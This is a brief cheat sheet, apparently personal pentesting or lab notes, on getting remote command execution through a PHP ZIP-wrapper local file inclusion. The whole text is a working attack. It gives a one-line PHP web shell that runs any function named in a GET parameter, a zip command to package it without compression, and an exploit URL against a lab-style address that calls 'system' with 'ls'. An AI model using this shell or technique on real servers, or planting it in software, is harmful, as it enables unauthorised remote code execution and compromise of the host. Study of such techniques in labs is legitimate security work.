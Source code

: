 

# PHP Web Shell

## ZIP Wrapper LFI

Create a PHP shell file:

````php
<?php $_GET['param1']($_GET['param2']); ?>
````

ZIP using:

```bash
$ zip -0 shell.zip shell.php
```

Run once the location is known:

`http://10.10.10.80/?op=zip://uploads/10.10.14.15/043ed5988a97b36bdf8e2d650c4891ea1139da3d%23shell&param1=system&param2=ls`

